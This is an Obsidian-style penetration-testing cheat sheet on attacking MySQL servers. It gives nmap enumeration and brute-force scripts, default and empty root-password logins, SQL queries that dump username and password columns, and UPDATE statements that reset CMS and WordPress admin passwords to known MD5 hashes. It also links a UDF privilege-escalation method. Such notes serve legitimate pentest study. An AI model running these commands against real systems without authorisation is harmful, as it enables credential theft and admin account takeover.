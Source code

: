 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### nmap
```bash - kali
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse $TARGET -p 3306
```

#### wp-config.php file
```bash - kali
cat wp-config.php
```

#### Remote login
```bash - kali
mysql --host=$TARGET -u root -P 3306 -p
```

#### Local login
```bash - kali
mysql -h localhost -u root -P 3306 -p
```

#### passwords
Try with empty password or:

```bash - kali
root
```

or brute:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against MySQL]]

```SQL
show databases;
```

```SQL
use <DATABASE>;
```

```SQL
show tables;
```

```SQL
describe <TABLE>;
```

```SQL
select * from <TABLE>;
```

or

```SQL
select usernames,passwords from <TABLE>;
```

![[Pasted image 20220126101801.png]]

#### Change password
```SQL
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin';
```

**cms_siteprefs would be found under show tables;**

![[Pasted image 20220126102546.png]]

or

```bash - kali
echo -n 'admin' | md5sum
```

==21232f297a57a5a743894a0e4a801fc3==

```SQL
update cms_users SET password='21232f297a57a5a743894a0e4a801fc3' WHERE username='admin';
```

![[Pasted image 20220126101821.png]]

#### MYSQL UDF 4.x/5.0
[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

```bash - kali
nmap --script=mysql-brute $TARGET
```

```bash - kali
mysql -u username -h $TARGET -p
```

```bash - kali
mysql --host=127.0.0.1 --port=13306 --user=wp -p
```

#### MySQL to Wordpress password

```bash - kali
mysql -u root -h $TARGET -p
```

Try with empty password, also try with password:

```bash - kali
root
```

```bash - kali
select * from users
```

```bash - kali
UPDATE 'users' SET 'pass'=MD5('password') WHERE 'user_login' = 'admin';
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
